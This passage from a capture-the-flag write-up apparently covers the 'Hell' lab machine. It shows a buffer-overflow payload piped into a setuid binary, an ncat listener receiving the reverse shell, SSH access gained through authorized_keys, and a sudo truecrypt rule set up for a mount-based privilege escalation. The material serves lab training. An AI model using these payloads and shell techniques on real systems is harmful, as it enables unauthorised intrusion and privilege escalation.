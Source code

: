 Eventually I get my shell with a padding of 2 bytes.  

Victim's side :  

```bash
milk_4_life@hell:~$ python -c "print '10';print 'AA'+'\x77\xff\xfe\xbf'*1000" | /usr/bin/lesson101
Hello milk_4_life - this is a beginning exercise for the course, 'Learning Bad C - 101'

I got it once in !! 3 !! whole guesses, can you do better?

Guess my number!!

Number (1-20): You got it in 1 tries, congratulations!
Holy crap I can't believe you did it in less than me!
I'm going to have to get your name for my wall of fame being put into the next version
Name:
```

Attacker's side :  

```bash
$ ncat -l -p 55555 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::55555
Ncat: Listening on 0.0.0.0:55555
Ncat: Connection from 192.168.1.29.
Ncat: Connection from 192.168.1.29:56901.
id
uid=1002(milk_4_life) gid=1002(milk_4_life) euid=1000(george) groups=1000(george),1002(milk_4_life)
```

After obtaining an SSH access (use the *authorized\_keys* file) I discovered in *.bash\_history* some references to *Truecrypt*.  

```bash
george@hell:~$ sudo -l
Matching Defaults entries for george on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User george may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/truecrypt
```

A *Truecrypt* container is already on the system but I can't find a working password to open it :  

```bash
george@hell:~$ ls -lh container.tc
-rw------- 1 george george 4.0M Jun 19 21:09 container.tc
```

Beating Hell
------------

So *Truecrypt* allows us to mount crypted volumes on the system. The vulnerability is a classic weak permissions on mouting (just like if there was some line in fstab allowing non-root users to mount volumes without the nosuid option... remeber floppy disks ?) :p  
